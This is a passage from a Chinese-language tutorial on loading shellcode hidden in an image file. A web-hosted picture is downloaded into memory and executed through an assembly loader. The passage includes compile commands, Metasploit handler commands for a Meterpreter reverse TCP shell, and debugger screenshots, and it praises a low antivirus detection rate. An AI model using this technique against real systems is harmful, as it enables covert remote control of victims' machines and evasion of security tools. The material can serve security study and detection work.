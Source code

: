 最后一个步骤，我们需要把这个图片放到Web服务器上，写个简单的程序，下载图片到内存中，跳转到正确地址，执行这段shellcode。最简单的一个方法还是通过汇编语言。

我写了一个[汇编程序](https://github.com/ApertureSecurity/Assembly-Series/blob/master/Ghostexe.asm)来完成这个任务。编译命令如下：

```
nasm -f win32 GhostExe.asm
gcc -fno-use-linker-plugin GhostExe.obj -o GhostExe.exe
```

我建议你可以打开调试器，将调试器附加到某个在运行的进程中，一步一步跟下来，观察它执行的步骤以加深理解。

如果你选择使用调试器，你可以看一下GhostExe.exe在00401482位置的偏移量，这是接收数据之后所在的位置。你可以在ECX的尾部看到输出的载荷数据。

或者你可以直接使用Metasploit，运行exe让它自动化执行。

```
msf&gt;use exploit multi/handler
msf&gt;set payload windows/meterpreter/reverse_tcp
msf&gt;set lhost &lt;local IP&gt;
msf&gt;set lport &lt;local port&gt;
msf&gt;set ExitOnSession false
msf&gt;exploit -j
```

以下是NoDistrubute.com给出的检测结果，只有1/35的检出率，非常好的一个结果。

[![](./img/85824/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://2we26u4fam7n16rz3a44uhbe1bq2.wpengine.netdna-cdn.com/wp-content/uploads/032117_2306_LaunchingSh11.png)

<br>

**五、可选的调试步骤**

我们可以看看调试步骤的一些截图

[![](./img/85824/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://2we26u4fam7n16rz3a44uhbe1bq2.wpengine.netdna-cdn.com/wp-content/uploads/032117_2306_LaunchingSh12.png)

定位到“JMP EAX”指令，这是我们从猫咪图片中跳转到shellcode的指令。

[![](./img/85824/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://2we26u4fam7n16rz3a44uhbe1bq2.wpengine.netdna-cdn.com/wp-content/uploads/032117_2306_LaunchingSh13.png)

是不是很眼熟：

[![](./img/85824/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://2we26u4fam7n16rz3a44uhbe1bq2.wpengine.netdna-cdn.com/wp-content/uploads/032117_2306_LaunchingSh14.png)

这就是我们原始的载荷：

[![](./img/85824/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://2we26u4fam7n16rz3a44uhbe1bq2.wpengine.netdna-cdn.com/wp-content/uploads/032117_2306_LaunchingSh15.png)

